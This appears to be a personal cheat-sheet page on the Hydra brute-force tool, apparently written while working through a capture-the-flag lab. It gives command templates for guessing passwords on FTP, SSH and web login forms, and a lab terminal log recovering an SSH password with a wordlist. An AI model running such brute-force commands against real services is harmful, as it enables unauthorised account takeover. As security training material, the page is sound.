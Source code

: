 
### Hydra

More Info: https://github.com/frizb/Hydra-Cheatsheet


What is Hydra?
Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.




Option | Explanation
-|-
`-l username` | Provide the login name
`-P WordList.txt` | Specify the password list to use
`server service` | Set the server address and service to attack
`-s PORT` | Use in case of non-default service port number
`-V` or `-vV` | Show the username and password combinations being tried
`-d` | Display debugging output if the verbose output is not helping


#### Hydra Commands

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

Sample: SSH

`hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

![[Pasted image 20220815022115.png]]

Post Web Form
We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, or simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![[Pasted image 20220815022213.png]]

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 10.10.134.118 ssh 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-18 08:00:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.134.118:2222/
[2222][ssh] host: 10.10.134.118   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-18 08:01:12
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/simple_CTF]
└─$      
```

